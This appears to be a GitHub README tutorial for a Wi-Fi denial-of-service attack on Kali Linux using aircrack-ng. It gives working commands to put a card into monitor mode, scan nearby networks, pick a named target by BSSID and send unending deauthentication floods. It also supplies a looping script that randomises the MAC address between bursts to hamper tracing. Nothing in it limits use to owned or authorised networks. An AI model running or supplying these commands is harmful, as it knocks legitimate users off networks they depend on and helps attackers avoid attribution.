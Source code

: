 # DOS-Attack


**What is DOS ATTACK?**

In computing, a denial-of-service attack (DoS attack) is a cyber-attack in which the perpetrator seeks to make a machine or network resource unavailable to its intended users by temporarily or indefinitely disrupting services of a host connected to the Internet. Denial of service is typically accomplished by flooding the targeted machine or resource with superfluous requests in an attempt to overload systems and prevent some or all legitimate requests from being fulfilled.
For More Depth [Wikipedia](https://en.wikipedia.org/wiki/Denial-of-service_attack)

---

USING AIRCRACK-NG

```bash
root@kali:~# ifconfig

```
note down the name of your wireless interface
here **wlan0** is used and create a .sh file (use your favourite text editor)

```bash
root@kali:~#vi monitor.sh

(for using vim editor type)

insert
type whatever content u want to whatever
esc
:wq)

```
[For More Vim Command](https://www.tutorialspoint.com/vim/vim_editing.htm)

*And type the following command*

```bash
#!/bin/bash

ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
iwconfig wlan0 | grep Mode

```

In Another tab:

```bash
root@kali:~# chmod +x monitor.sh
root@kali:~# ./monitor.sh

(some expected output)

wlan0     IEEE 802.11  Mode:Monitor  Frequency:2.462 GHz  Tx-Power=20 dBm

root@kali:~#airodump-ng wlan0

(scanning)

some expected output

CH 10 ][ Elapsed: 1 min ][ 2020-05-01 06:41 ][ interface wlan0 down                                                                                                                                             

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                                                                                                 

 BE:2A:16:CC:C4:C0  -31      100        0    0  11  180   WPA2 CCMP   PSK  ABHIJIT                                                                                                                               
 BE:2F:3D:31:8A:CC  -24      151        0    0   1   65   WPA2 CCMP   PSK  vivo 1609                                                                                                                             
 C4:E9:0A:E3:5D:3C  -62      179        0    0   6  270   WPA2 CCMP   PSK   AUTO CENTER

 ```

Note down the channel no. and BSSID of the router you want to attack here we are attacking ESSID "ABHIJIT"
channel=11
**BBSID=BE:2A:16:CC:C4:C0**

```bash
root@kali:~# iwconfig channel 11

(switching to the required channel)

root@kali:~# aireplay-ng -0 0 -a BE:2A:16:CC:C4:C0 wlan0 -e ABHIJIT

```

('-0' is used for deauthentication the next number denotes the number the deauthentication packets to be sent if it is 0 it will send continuously untill stopped manually)

#####EXTRA TIPS (IFF not using virtual systems)

creating a .sh which will continuously send some deauthentication packets and then change the mac address of the system , sleeping for some seconds and then the process carries on

```bash
root@kali:~# vi dos.sh

#!/bin/bash


while true
do
        iwconfig wlan0 channel $1
        aireplay-ng -0 5 -a $2 wlan0
        ifconfig wlan0 down
        macchanger -r eth0 | grep "New MAC"
        ifconfig wlan0 up
        sleep 3

done

```
**In different Tab**

```bash
root@kali:~#chmod +x dos.sh

root@kali:~#./dos.sh 11 BE:2A:16:CC:C4:C0

```

(dynamic value is used in the dos.sh, 11 goes to $1 , BE:2A:16:CC:C4:C0 goes to $2)


**NOTE**
>after the process the wireless interface can show trouble so run the below code or  reboot your system
```bash
root@kali:~#service network-manager restart

```
Author - [Kakí_epíthesi](https://github.com/kaki-epithesi)
[ALL CODES](https://github.com/kaki-epithesi/dos-attack)
